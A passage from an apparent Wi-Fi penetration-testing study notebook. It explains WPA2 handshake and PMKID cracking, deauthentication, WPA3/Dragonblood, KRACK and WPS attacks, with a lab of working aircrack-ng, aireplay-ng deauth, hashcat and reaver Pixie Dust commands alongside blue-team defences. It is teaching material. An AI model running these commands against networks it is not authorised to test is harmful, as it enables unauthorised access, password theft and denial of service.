    if MIC2 == captured_MIC:
        print("FOUND:", candidate_passphrase)
```

Every input except the passphrase is in the capture file. **You do not need messages 1 through 4 all present** — practically, you need at least the pair that gives you both nonces and one valid MIC (commonly messages 1+2, or 2+3). `aircrack-ng` and `hashcat` reconstruct the PTK/MIC computation for each guess. The AP is never contacted during cracking; it can be powered off; the owner will never know. **This offline, un-throttled, un-loggable nature is precisely the flaw WPA3 was designed to eliminate.**

### Minimum viable capture

A "handshake" in tooling terms means enough EAPOL messages to reconstruct the MIC verification. Rules of thumb:

- **Best:** all four EAPOL frames + a beacon (for the SSID).
- **Sufficient:** message 2 (has SNonce + MIC) plus message 1 or 3 (has ANonce). Modern hashcat mode 22000 is happy with M1+M2 or M2+M3.
- You must also know the **SSID** (it's the PBKDF2 salt) — airodump captures it from beacons automatically.

**Red team usage:** you don't wait for a client to reconnect naturally — you **force** it by sending a deauth (Part 9), causing an immediate reassociation and a fresh handshake you capture. **Blue team usage:** a burst of deauths followed by EAPOL frames in your WIDS logs is the signature of exactly this attack; PMF (Part 10) blocks the deauth and denies the attacker the forced handshake.

---

## Part 8: PMKID — The Clientless Attack

For years the four-way capture had one operational annoyance: **you needed a connected client** to deauth and catch reconnecting. In 2018, Jens "atom" Steube (the author of hashcat) disclosed the **PMKID attack**, which removes that requirement entirely for many APs.

### What the PMKID is

To speed up roaming, 802.11i defined **PMK caching**, and APs advertise a **PMKID** in the *first message of the four-way handshake* (in the RSN information element / EAPOL message 1). The PMKID is computed as:

```
PMKID = HMAC-SHA1( PMK, "PMK Name" || AP_MAC || Client_MAC )
```

Notice the inputs: the **PMK** (which, on Personal, is still just PBKDF2(passphrase, SSID)) and the two MAC addresses. There is **no nonce and no client-side handshake completion required.** An attacker's rogue association attempt can solicit message 1 with a PMKID from the AP directly — **no legitimate client needs to be present.**

### Why it matters



The offline cracking maths is the same family as the four-way MIC check — you still brute-force the passphrase through PBKDF2 — but the *capture* step is faster, quieter (no deauth of a real user), and works against APs with **no connected clients at all**. The tool for capture is **hcxdumptool** and the conversion/attack uses **hcxpcapngtool → hashcat mode 22000** (covered fully in Chapter 3 of this notebook).

**Not universal:** PMKID only works if the AP includes a PMKID in message 1 and uses a crackable PSK. Many APs (and configurations) don't, and WPA3-SAE doesn't produce a crackable PMKID at all. But when it works, it's the cleanest capture available.

**Blue team relevance:** PMKID capture generates almost no anomalous traffic — there's no deauth flood to detect. Defence is therefore *cryptographic, not behavioural*: a strong passphrase (so offline cracking fails) and/or WPA3, not "watch for deauths."

---

## Part 9: Deauthentication — Forcing the Handshake

The deauthentication attack is the single most-used technique in Wi-Fi offense, because it's the lever that *creates* handshakes to capture and *disconnects* clients for evil-twin herding.

### How it works

Recall from Part 2 that on WPA2, **management frames are unauthenticated**. A **deauthentication frame** is a management frame whose stated purpose is "this session is over." Nothing stops an attacker forging one with the AP's BSSID as the source and a client's MAC as the destination (or broadcast, to hit everyone). The client's driver sees a legitimate-looking "you've been deauthenticated" notice and disconnects — then, because the human still wants Wi-Fi, it immediately reassociates, triggering a fresh four-way handshake the attacker captures.



The canonical command (tooling detailed next chapter) is `aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon`, run while `airodump-ng` is locked on the channel capturing. `--deauth 5` sends five deauth bursts; `-a` is the AP, `-c` the target client (omit `-c` to broadcast-deauth everyone, noisier).

### Beyond handshake capture

Deauth is also a **denial-of-service** primitive (spam continuously and clients can't stay connected) and the **herding mechanism for evil twins** — knock a client off the real AP so it latches onto your rogue one broadcasting the same SSID. Those are dedicated later chapters; here, understand it as *the way you force a WPA2 handshake on demand*.

**The defence is 802.11w PMF**, which authenticates deauth/disassoc frames so forged ones are rejected — the client ignores the attacker's deauth entirely, no disconnect, no forced handshake. This is why PMF is so important and why WPA3 mandates it. **Blue team detection:** an abnormal rate of deauth/disassoc frames from a BSSID (especially broadcast deauths) is the classic WIDS alert; tools like `kismet` and commercial WIPS flag it immediately.

---

## Part 10: WPA3 & SAE — Killing the Offline Attack

Everything above shows one structural problem with WPA2-Personal: **a captured handshake enables unlimited, offline, un-throttled passphrase guessing.** No matter how good your crypto, if the PMK is a function of a human-chosen password and every other handshake input is public, weak passwords die. **WPA3**, introduced by the Wi-Fi Alliance in 2018, fixes this at the exchange level by replacing the PSK handshake with **SAE (Simultaneous Authentication of Equals)**, a password-authenticated key exchange (PAKE) based on the **Dragonfly** protocol.

### What SAE changes

SAE is a variant of a Diffie–Hellman key exchange in which the shared password is woven into the exchange such that:

- **No passphrase-derived value that enables offline guessing ever crosses the air.** An eavesdropper who captures the full SAE exchange gains *nothing* they can test guesses against offline — there is no captured MIC-over-known-data whose only unknown is the password. To test a password you must run a *live* exchange with the AP, which is online, rate-limitable, and loggable.
- **Forward secrecy.** Each session establishes a fresh ephemeral key via Diffie–Hellman. Even if the password is later compromised, previously captured traffic **cannot** be decrypted retroactively (WPA2 has no forward secrecy — learn the PSK and you can decrypt any past traffic you captured, given the handshake).
- **Built-in resistance to offline dictionary attack** is the headline property. Brute force is forced back online, where the AP can throttle and lock.



Note SAE still feeds into a four-way handshake to install the PTK/GTK — but the PMK it produces is *not* offline-guessable from captured frames, which neuters the entire Part 7/8 attack class.

### WPA3's other mandates

- **PMF (802.11w) is mandatory** — deauth/disassoc forgery (Part 9) is blocked, killing forced-handshake and most DoS-via-deauth.
- **WPA3-Enterprise 192-bit mode** for high-security environments (stronger cipher suite, GCMP-256).
- **SAE replaces PSK** in WPA3-Personal; WPA3-Enterprise still uses 802.1X/EAP but with PMF.

### The catch: transition mode and Dragonblood

WPA3 adoption is gradual, so most WPA3 APs run **transition (mixed) mode**: they advertise WPA3-SAE *and* WPA2-PSK on the same SSID so old clients still connect. This is a real weakness:

- A **downgrade attack** — an attacker stands up a rogue AP offering only WPA2-PSK for that SSID, forcing a victim to fall back to WPA2 and exchange a *crackable* four-way handshake. Transition mode reintroduces the exact offline attack WPA3 was meant to kill.
- **Dragonblood (2019, Vanhoef & Ronen):** a set of SAE weaknesses — **side-channel leaks** (timing and cache-based) during the password-element (PWE) derivation that leak information about the password, plus downgrade and DoS issues. Patched in later implementations (and the newer "hash-to-element" H2E PWE method mitigates the side channels), but it proved WPA3 wasn't flawless and that implementation quality matters.

**Assessment takeaway:** finding **WPA3 in transition mode** is a legitimate finding — recommend WPA3-only SSIDs (a separate legacy SSID for old gear if truly needed). Finding **WPA3-only with H2E and PMF** is a strong control; your PSK-cracking playbook simply won't apply and you pivot to client-side, evil-twin-on-a-different-SSID, or enterprise-EAP attacks.

Here's the decision logic an attacker walks on first contact with a target SSID:



---

## Part 11: Hands-On Lab — Capture a Real WPA2 Four-Way Handshake

Time to make the theory concrete. This lab captures a genuine WPA2-PSK four-way handshake from a **lab AP you own** and prepares it for cracking. It uses the **aircrack-ng suite** (installed by default on Kali); Chapter 2 teaches the suite from scratch and Chapter 3 covers hashcat cracking in depth, so here we focus on *getting and validating a handshake* and understanding every line of output.

> **Lawful use:** run this only against an AP you own or are explicitly authorised to test. Set up a spare home router with WPA2-PSK and a passphrase you choose, and use a phone as the "victim" client. Do not deauth or capture from neighbours.

### Lab topology



### Step 0 — Confirm the adapter and put it in monitor mode

```bash
# List wireless interfaces and drivers
iw dev
# Example output:
# phy#1
#   Interface wlan1
#     type managed
#     addr 00:c0:ca:aa:bb:cc

# Kill processes that fight for the radio (NetworkManager, wpa_supplicant)
sudo airmon-ng check kill

# Start monitor mode on wlan1 -> creates wlan1mon
sudo airmon-ng start wlan1
```

`airmon-ng check kill` stops `NetworkManager` and `wpa_supplicant`, which otherwise keep retuning the card to associate — a classic beginner failure where captures "randomly" stop. `airmon-ng start wlan1` loads monitor mode and typically renames the interface to `wlan1mon`. Confirm:

```bash
iw dev wlan1mon info
# type monitor   <-- must say monitor, not managed
```

### Step 1 — Survey to find the target

```bash
sudo airodump-ng wlan1mon
```

Sample output (channel-hopping survey):

```
 CH  6 ][ Elapsed: 48 s ][ 2026-11-23 09:14

 BSSID              PWR  Beacons  #Data #/s  CH  MB   ENC  CIPHER AUTH ESSID
 AA:BB:CC:11:22:33  -38      210     54   1    6  270  WPA2 CCMP   PSK  LAB-NET
 DE:AD:BE:EF:00:01  -71       96      3   0   11  130  WPA2 CCMP   PSK  Neighbor1
 F0:9F:C2:00:11:22  -80       40      0   0    1  195  WPA3 CCMP   SAE  Newer-AP

 BSSID              STATION            PWR   Rate    Lost  Frames  Notes  Probes
 AA:BB:CC:11:22:33  66:55:44:33:22:11  -44    0 - 1e     0      12         LAB-NET
```

Read the columns:

| Column | Meaning |
|---|---|
| `BSSID` | AP MAC — your `-a`/`--bssid` target |
| `PWR` | Signal strength (closer to 0 = stronger); pick a strong target |
| `CH` | Channel — you'll lock to this |
| `ENC`/`CIPHER`/`AUTH` | `WPA2/CCMP/PSK` = crackable handshake target; `WPA3/.../SAE` = no offline crack |
| `ESSID` | SSID (the PBKDF2 salt) |
| `STATION` | Connected client MAC — your deauth `-c` target |

Target confirmed: `LAB-NET`, BSSID `AA:BB:CC:11:22:33`, channel 6, with a connected client `66:55:44:33:22:11`.

### Step 2 — Lock to the channel and start a focused capture

```bash
sudo airodump-ng --bssid AA:BB:CC:11:22:33 -c 6 -w labcap wlan1mon
```

- `--bssid AA:BB:CC:11:22:33` — capture only this AP (filters noise).
- `-c 6` — lock to channel 6 (no hopping, so we don't miss handshake frames).
- `-w labcap` — write capture files with prefix `labcap` (`labcap-01.cap`, `.csv`, etc.).

Leave this running. The top-right will show a handshake indicator when one is captured:

```
 CH  6 ][ Elapsed: 20 s ][ 2026-11-23 09:16 ][ WPA handshake: AA:BB:CC:11:22:33
```

That `WPA handshake: <BSSID>` banner is the goal.

### Step 3 — Force a handshake with a targeted deauth

In a **second terminal**, nudge the connected client off so it reconnects:

```bash
sudo aireplay-ng --deauth 4 -a AA:BB:CC:11:22:33 -c 66:55:44:33:22:11 wlan1mon
```

- `--deauth 4` — send 4 deauth bursts (each burst = 64 frames by default). Keep it *low* — spamming can prevent reconnection and looks maximally hostile.
- `-a` — the AP BSSID; `-c` — the specific client (targeted deauth is quieter and more reliable than broadcast).

Sample output:

```
09:16:41  Waiting for beacon frame (BSSID: AA:BB:CC:11:22:33) on channel 6
09:16:41  Sending 64 directed DeAuth (code 7). STMAC: [66:55:44:33:22:11] [ 8|54 ACKs]
09:16:42  Sending 64 directed DeAuth (code 7). STMAC: [66:55:44:33:22:11] [12|61 ACKs]
```

The client drops and reassociates; airodump captures the resulting four-way handshake and shows the banner from Step 2.

### Step 4 — Verify the handshake is actually complete

A visible banner isn't proof the capture is *crackable*; verify the EAPOL frames are really there.

```bash
# Quick check with aircrack-ng (no cracking yet, just validation)
aircrack-ng labcap-01.cap
```

```
   #  BSSID              ESSID       Encryption
   1  AA:BB:CC:11:22:33  LAB-NET     WPA (1 handshake)
```

`WPA (1 handshake)` confirms a usable handshake. For a rigorous check, inspect the EAPOL messages in Wireshark or with tshark:

```bash
tshark -r labcap-01.cap -Y "eapol" -T fields \
  -e frame.number -e wlan.sa -e wlan.da -e eapol.type
```

```
14   AA:BB:CC:11:22:33  66:55:44:33:22:11  3   # Msg 1 (ANonce)
15   66:55:44:33:22:11  AA:BB:CC:11:22:33  3   # Msg 2 (SNonce + MIC)
16   AA:BB:CC:11:22:33  66:55:44:33:22:11  3   # Msg 3 (GTK + MIC)
17   66:55:44:33:22:11  AA:BB:CC:11:22:33  3   # Msg 4 (ACK)
```

Seeing all four EAPOL frames (or at least M1+M2 / M2+M3) means the capture is complete. **This is the object that makes offline cracking possible — the nonces and MIC are all right there.**

### Step 5 — Convert for modern cracking (hashcat 22000)

`aircrack-ng` can crack directly, but modern workflows convert to hashcat's **22000** format, which handles both four-way and PMKID hashes:

```bash
# hcxtools provides the converter (apt install hcxtools if missing)
hcxpcapngtool -o labnet.22000 labcap-01.cap
```

```
...
EAPOL messages (total)................: 4
EAPOL pairs (best).....................: 1
WPA*02 (4-way handshake) hashes........: 1
written to labnet.22000
```

`WPA*02` = a four-way-handshake hash line (WPA*01 would be a PMKID). You now have `labnet.22000`, ready for:

```bash
hashcat -m 22000 labnet.22000 /usr/share/wordlists/rockyou.txt
```

We stop here — Chapter 3 covers hashcat mode 22000, masks, rules, and GPU tuning fully. The point of this lab was to **capture and validate a real handshake and see exactly what it contains.** You've now watched the theory of Parts 6–7 turn into concrete EAPOL frames on disk.

### Lab troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| No handshake banner ever appears | Channel hopping / wrong channel | Always lock `-c <channel>`; verify with `iw dev` |
| Capture "stops" intermittently | NetworkManager retuning the card | `airmon-ng check kill` before starting |
| Deauth "sends" but client won't drop | Client too far / PMF enabled | Move closer; if PMF (WPA3/802.11w), deauth is blocked — expected |
| `aircrack-ng` says "0 handshakes" | Only partial EAPOL captured | Re-deauth; confirm M2 is present (has the MIC) |
| hcxpcapngtool outputs nothing | No EAPOL pairs in cap | Recapture; ensure a real client reconnected |

---

## Part 12: Cryptographic & Protocol Attacks Beyond Passphrase Guessing

Offline passphrase cracking (Parts 7–8) is the bread-and-butter, but you should know the protocol-level attacks that don't depend on a weak password, because they show up in scope discussions and reports.

### KRACK — Key Reinstallation Attacks (2017)

Mathy Vanhoef's **KRACK** attacked the four-way handshake *itself*, not the passphrase. By capturing and **replaying message 3**, an attacker could trick a client into **reinstalling an already-in-use PTK**, which **resets the CCMP nonce/packet-number counter**. Nonce reuse in a stream-like cipher leaks keystream, enabling decryption (and, for some implementations, forging/injection) of frames — *without knowing the passphrase at all.* KRACK was devastating precisely because it hit the standard, so nearly every WPA2 device was affected. It was patched at the client side (clients now refuse to reinstall a key); a fully patched network is safe. **Assessment relevance:** unpatched IoT/embedded clients may still be vulnerable — an angle when the AP is hardened but old devices linger.

### FragAttacks (2021)

Also Vanhoef: a family of **fragmentation and aggregation** flaws — some design bugs in 802.11 itself (mixed-key fragment reassembly, aggregation flag not authenticated) and some implementation bugs. They allow limited injection/exfiltration even on WPA3 in some cases. Individually low-severity, collectively a reminder that the 802.11 frame format has rough edges.

### WPS — the convenience backdoor that bypasses the passphrase entirely

**Wi-Fi Protected Setup (WPS)** deserves its own treatment because it can defeat even a *strong* WPA2 passphrase. WPS lets users join by typing an **8-digit PIN** (or pushing a button) instead of the passphrase — and that PIN, once cracked, hands the attacker the **actual WPA2 PSK**. Two fatal design flaws:

- **The PIN is validated in two halves.** The 8-digit PIN is checked as the first 4 digits and the second 4 (of which one is a checksum), so the search space collapses from `10^8 = 100,000,000` to `10^4 + 10^3 = 11,000` attempts. The **Reaver** online brute-force (Viehböck, 2011) walks that space; against an AP with no rate-limiting/lockout it recovers the PIN — and thus the PSK — in hours.
- **Pixie Dust (Bongård, 2014)** is worse: for many chipsets (Ralink, Broadcom, Realtek) the AP's nonces (E-S1/E-S2) used in the WPS exchange are weak or effectively zero, so the PIN can be recovered **offline in seconds from a single handshake** — no online brute-forcing at all.

```bash
# Discover WPS-enabled APs (WPS column, LCK = locked)
sudo wash -i wlan1mon
# Pixie Dust attack against a vulnerable AP
sudo reaver -i wlan1mon -b AA:BB:CC:11:22:33 -c 6 -K 1 -vv
#  -K 1 = attempt Pixie Dust;  on success prints WPS PIN *and* the WPA PSK
```

**The takeaway that surprises people:** a 30-character random WPA2 passphrase is worthless if WPS is enabled and the AP is Pixie-vulnerable — the attacker never touches the passphrase, they extract it via the PIN. **Blue team:** *disable WPS entirely* on every AP (it is the single highest-value one-line hardening step for home/SMB gear), and if it must exist, ensure the AP enforces lockout after failed PINs.

### The DoS family

- **Deauth/disassoc floods** (Part 9) — trivial, effective, defeated by PMF.
- **Michael MIC countermeasure abuse** (TKIP only, Part 4) — force network shutdown.
- **RF jamming** — brute-force interference on the channel; out of scope for most software attacks but the ultimate wireless DoS.

### The through-line

Every one of these targets either **unauthenticated management frames**, **handshake state-machine flaws**, or **cipher-mode misuse (nonce reuse)** — never AES-CCM's core math. That's the recurring lesson: modern Wi-Fi crypto is sound; the attack surface is protocol logic, implementation quality, and human-chosen passwords.

---

## Part 13: Detection & Defence Angle (Blue Team)

Everything above is offense; this consolidated section is how a defender detects and prevents it. Bring this to any Wi-Fi assessment as your remediation list.

### Prevent the offline crack from ever succeeding

- **Strong PSK is the whole game on Personal.** Because capture and cracking can't be stopped, the passphrase must survive billions of offline guesses. Use a **random 15+ character** passphrase or a 5–6 word diceware phrase. `password`, `company2024`, phone numbers and SSID-derived guesses die in seconds. There is no lockout to save you.
- **Unique SSID** where feasible — a non-default SSID defeats precomputed rainbow tables (the SSID is the PBKDF2 salt).
- **Prefer WPA3-SAE**, which removes offline guessing entirely and adds forward secrecy. Where legacy clients force WPA2, isolate them on a separate SSID rather than running WPA3 **transition mode** on the main network (transition mode is downgradable back to crackable WPA2).

### Block the forced-handshake / deauth machinery

- **Enable 802.11w (PMF).** Protected Management Frames authenticate deauth/disassoc, so forged deauths are ignored — the attacker can't force reconnection or run deauth DoS. Mandatory in WPA3; set it to *required* (not merely *capable*) where all clients support it.
- **Kill TKIP and WEP** entirely — CCMP-only (AES). TKIP is deprecated and forbidden on Wi-Fi 6; WEP is instant compromise.

### Detect the attack in progress

- **Deploy a WIDS/WIPS** (Kismet open-source, or commercial such as the wireless features in enterprise controllers). Alert on: abnormal **deauth/disassoc rates**, **rogue APs** broadcasting your SSID with an unknown BSSID (evil twin), **spoofed beacons**, and unexpected clients.
- **Rogue-AP detection:** maintain an inventory of authorised BSSIDs; anything advertising your SSID that isn't on the list is an evil-twin candidate.
- **PMKID/handshake capture is largely undetectable** by traffic analysis (PMKID especially generates no anomaly) — this is *why* the cryptographic controls (strong PSK, WPA3) matter more than monitoring for Personal networks.

### Enterprise-grade hardening

- **WPA2/WPA3-Enterprise (802.1X/EAP)** removes the shared passphrase entirely — per-user credentials via RADIUS, no single PSK to crack. Use **EAP-TLS** (client certificates) over PEAP/EAP-TTLS where possible, and **validate the RADIUS server certificate on clients** (misconfigured clients that don't validate the cert are the evil-twin/credential-relay entry point — a later chapter).
- **WPA3-Enterprise 192-bit mode** (GCMP-256) for the highest-assurance environments.
- **Network segmentation:** treat Wi-Fi as untrusted; put it behind a firewall, segment guest from corporate, and don't let a cracked PSK equal internal network access.



---

## Part 14: Final Revision / Summary

You now have the theory backbone for the entire Wireless notebook. Lock these in:

- **Radio changes everything.** The medium is broadcast; passive capture is free, invisible, and un-loggable. On Personal networks the passphrase is the entire security boundary because cracking is offline and un-throttled.
- **WEP** failed on four axes: 24-bit reused IV (keystream reuse), cleartext weak IVs (FMS/PTW key recovery), linear CRC-32 (forgeable integrity), and a leaky auth handshake. Broken in minutes at any key length.
- **WPA/TKIP** patched WEP in firmware — 48-bit TSC, per-packet key mixing, Michael MIC with shutdown countermeasures — but still rode RC4, had weak integrity (Beck–Tews), and is now deprecated/forbidden.
- **WPA2/CCMP** got the cipher right: AES-CCM (CTR for confidentiality, CBC-MAC for integrity, 48-bit PN for replay). CCMP itself isn't broken; networks fall via weak passphrases or protocol flaws.
- **Key hierarchy:** passphrase → **PMK** (PBKDF2 with SSID as salt) → **PTK** (from PMK + both MACs + both nonces) → **KCK/KEK/TK**; **GTK** for broadcast. Only the PMK is secret; everything else in the handshake is public.
- **Four-way handshake:** M1 ANonce → M2 SNonce+MIC → M3 GTK+MIC → M4 ACK. Because every input but the PMK is in the clear, a captured handshake enables **offline** passphrase guessing (compute candidate PMK→PTK→MIC, compare to captured MIC).
- **PMKID** attack captures a crackable value from EAPOL M1 **without any connected client**, when the AP includes a PMKID.
- **Deauth** forges unauthenticated management frames to force reconnection (and thus a fresh handshake) or to DoS/herd clients. Defeated by **PMF (802.11w)**.
- **WPA3/SAE (Dragonfly)** is a PAKE: no offline-guessable material crosses the air, adds **forward secrecy**, and mandates **PMF**. Weak spots are **transition-mode downgrades** back to WPA2 and **Dragonblood** side channels (mitigated by H2E).
- **Beyond passwords:** KRACK (key reinstallation → nonce reuse), FragAttacks, and DoS families attack protocol logic, not AES.
- **Defence:** strong random PSK or WPA3-only, unique SSID, CCMP-only, PMF required, WIDS for deauth/rogue-AP, and Enterprise 802.1X with validated RADIUS certs for the highest bar.

---

## Part 15: Cheat Sheet / Quick Reference

### Security generation comparison

| Gen | Year | Cipher | Integrity | Handshake / Auth | Primary weakness | Status |
|---|---|---|---|---|---|---|
| WEP | 1997 | RC4 (24-bit IV) | CRC-32 (linear) | Shared-key challenge | IV reuse, FMS/PTW key recovery, forgeable | Broken, avoid |
| WPA | 2003 | RC4 + TKIP | Michael MIC | 4-way (PSK) | Weak MIC, RC4, Beck–Tews | Deprecated |
| WPA2 | 2004 | AES-CCMP | CBC-MAC (AEAD) | 4-way (PSK/EAP) | Offline PSK crack, KRACK | Common, harden |
| WPA3 | 2018 | AES-CCMP/GCMP-256 | AEAD | SAE (Dragonfly PAKE) | Transition downgrade, Dragonblood | Preferred |

### Key hierarchy at a glance

| Key | Derived from | Used for | Secret? |
|---|---|---|---|
| PMK | PBKDF2(passphrase, SSID) *(Personal)* / EAP *(Enterprise)* | Root of PTK | Yes |
| PTK | PRF(PMK, MACs, ANonce, SNonce) | Split into KCK/KEK/TK | Yes |
| KCK | PTK[0:16] | Handshake MIC | Yes |
| KEK | PTK[16:32] | Encrypt GTK in M3 | Yes |
| TK | PTK[32:48] | AES-CCMP data encryption | Yes |
| GTK | AP-generated random | Broadcast/multicast encryption | Yes |
| ANonce/SNonce | Random per handshake | PTK inputs | **No (in clear)** |

### Four-way handshake in one line each

| Msg | Dir | Contents | Attacker gains |
|---|---|---|---|
| 1 | AP→STA | ANonce | ANonce, AP MAC |
| 2 | STA→AP | SNonce + MIC | SNonce, STA MAC, **crackable MIC** |
| 3 | AP→STA | Encrypted GTK + MIC + install | second MIC, PMK-match confirm |
| 4 | STA→AP | ACK + MIC | install confirmation |

### Essential commands

```bash
# Monitor mode
sudo airmon-ng check kill
sudo airmon-ng start wlan1                 # -> wlan1mon

# Survey
sudo airodump-ng wlan1mon                  # all networks, channel-hopping

# Locked capture of a target
sudo airodump-ng --bssid <BSSID> -c <CH> -w cap wlan1mon

# Force handshake (targeted deauth)
